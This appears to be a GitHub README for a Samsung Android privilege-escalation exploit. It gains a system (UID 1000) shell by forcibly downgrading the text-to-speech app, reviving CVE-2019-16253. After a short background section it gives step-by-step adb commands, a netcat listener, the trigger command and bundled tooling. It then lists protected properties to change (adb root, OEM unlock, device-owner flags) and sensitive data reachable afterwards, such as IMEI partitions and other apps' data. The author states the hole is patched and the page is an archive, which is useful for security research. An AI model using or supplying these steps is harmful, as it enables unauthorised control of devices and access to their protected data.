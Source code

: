 # K0mraid3s-System-Shell
Way back in 2019, a vulnerability that would come to be known as "CVE-2019-16253" was found that affect Samsung's TTS engine in versions prior to 3.0.02.7. This exploit allowed for a local attacker to escalate privileges to system privileges and was later patched by Samsung.

Essentially, Samsung's TTS app would blindly accept any data that it received from the TTS engine. You can pass the TTS engine a library that will then be given to the TTS application, which in turn will then load that library and execute it with system privileges, UID 1000 on Android. This was later patched so that the TTS app would verify the data coming from the engine, and the version installed, closing this particular loophole.

However, with Android 10, Google introduced the ability to rollback an application by installing it with the ENABLE_ROLLBACK parameter. This allows the user to revert a version of an app installed on the device to a previous version of the app installed on the device. I believe an oversight has allowed this to extend to Samsung's text-to-speech application, as well as any application on any Android 10+ device currently in the wild.

The root of this kill-chain all comes back to the '-d' flag added to the package-manager command when installing an application. It should only work for debuggable apps, but it works for non-debuggable applications as well and that is why the TTS app can be downgraded forcefully.

In other words, while the exploit in 2019 was fixed and an updated version of the TTS app was distributed, first one, now multiple workarounds & bypasses to install and exploit it on devices released three (and perhaps four) years later have been discovered, leading to questions on how many past exploits are revivable. 

In March, Samsung released a patch for the exploit, however, I was able to quickly find a workaround for the March Samsung patch and this has since been reported and patched, as well, concluding the 2 year saga of the infamous "TTS System Shell"


--------------------------------------

Simple guide -- 

1 Install all the apks, open atleast once.

2 Reboot, when device reboots, run the following command from ADB.

"adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk 
"

3 in one console, type ```nc -lp 9999```

4 Run the following command in a second console: ```adb shell am start -n com.samsung.SMT/.gui.DownloadList```

DONE. 

if you have issues with it not starting, uninstall SMT (Samsung Text-To-Speech) completely, then reinstall the vuln version and try again from step 3 onward. 




PATCHED AS OF 02/2023
As seen on XDA before the public disclosure was removed by XDA Moderators.
It will otherwise remain unchanged here as an archive.

This is expected to work for all Samsung Mobile Devices made as of the time of writing this article, aside from some JDM devices. (01/19/2023)

Cool things that work:
Access to most of /efs /efs/imei /efs/sec_efs /efs/FactoryApp - Access to most of /data /data/system /data/user/0/ANY_SYSTEM_APP - The "Insthk" bin becomes useable, - Secure Folder/Separated Apps becomes COMPLETELY compromised if you also install the POC in it (UID 150_system) - start IOTHidden Menu, DM Mode, Service Mode, Multiple Debugging and hidden menus as well as preconfig in system context- Change many protected props, such as: 
setprop persist.service.adb.root 1
setprop service.adb.root 1
setprop sys.hidden.otatest 1
setprop sys.hiddenmenu.enable 1
setprop persist.sys.knox.device_owner true
setprop persist.sys.usb.qxdm.debug 1
setprop sys.usb.qxdm.debug 1
setprop presist.service.adb.enable 1
setprop persist.sys.usb.qxdm.debug 1
setprop service.adb.enable 1
setprop persist.rollback.is_test true
setprop sys.oem_unlock_allowed 1
aswell as quite a bit more.


The Easy Way -
Step 1 - Download "Komraids System Shell.zip", (attached is the latest version) and extract anywhere on desktop.
Step 2 - Push the "samsungTTSVULN2.apk" to /data/local/tmp
Step 3 - Ensure USB Debugging is ON, and computer is authorized. Also make sure power saving is OFF.
Step 4 - Install komraids_POC_V1.5.apk, reboot device.
Step 5 - When device is fully rebooted and unlocked, run systemshell.exe
Step 6 - You should now be in a shell with UID 1000. Enjoy. Be careful with what you mess with.

Things to note: The.exe only needs to be run once after each reboot, you can use it if you prefer, or, you can manually open a system shell yourself, by following Step 5, from "How it works?" below.

Don't be dumb, I'm not responsible for any dumb sh*t you do.
PWNED - K0mraid3 2022-10-06 175216.png

Huge thanks to @oakieville for the .exe and a lot of help tweaking the code of this project.


This project was brought to you by VAULT-TEC Dev Ops!
